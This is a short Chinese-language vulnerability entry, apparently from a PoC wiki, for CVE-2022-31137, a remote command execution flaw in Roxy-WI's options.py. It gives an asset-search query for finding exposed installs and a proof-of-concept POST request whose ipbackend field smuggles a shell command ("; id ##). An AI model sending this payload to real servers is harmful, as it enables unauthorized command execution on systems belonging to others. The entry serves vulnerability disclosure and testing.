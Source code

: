 # Roxy-Wi options.py 远程命令执行漏洞 CVE-2022-31137

## 漏洞描述

Roxy-Wi options.py 存在远程命令执行漏洞，攻击者通过漏洞可以执行命令获取服务器权限

## 漏洞影响

<a-checkbox checked>Roxy-WI</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="HAProxy-WI"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1658912004911-aa844957-d32a-491e-8067-10a56638cb56.png)

验证POC

```php
POST /app/options.py
  
alert_consumer=1&serv=127.0.0.1&ipbackend=%22%3Bid+%23%23&backend_server=127.0.0.1
```

![img](/assets/PeiQi-Wiki/img/1658912136259-592d71bc-4bd2-4815-b31f-dc364421becb.png)